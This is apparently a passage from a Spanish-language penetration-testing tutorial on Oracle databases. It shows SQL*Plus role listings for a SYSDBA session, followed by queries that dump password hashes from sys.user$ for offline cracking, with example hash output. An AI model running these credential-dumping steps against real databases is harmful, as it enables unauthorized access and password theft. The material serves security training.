**Resultado de SQL\*Plus como SYSDBA**

```yaml
SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

Desde este punto, podríamos intentar recuperar los hashes de contraseñas de la tabla `sys.user$` y tratar de descifrarlas fuera de línea. La consulta para esto sería algo como:

```sql
SELECT * FROM sys.user$;
```

#### Oracle RDBMS-Extracción de Hashes de Contraseña

Para extraer los hashes de contraseña de la base de datos Oracle, puedes ejecutar la siguiente consulta en SQL\*Plus:

```sql
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
```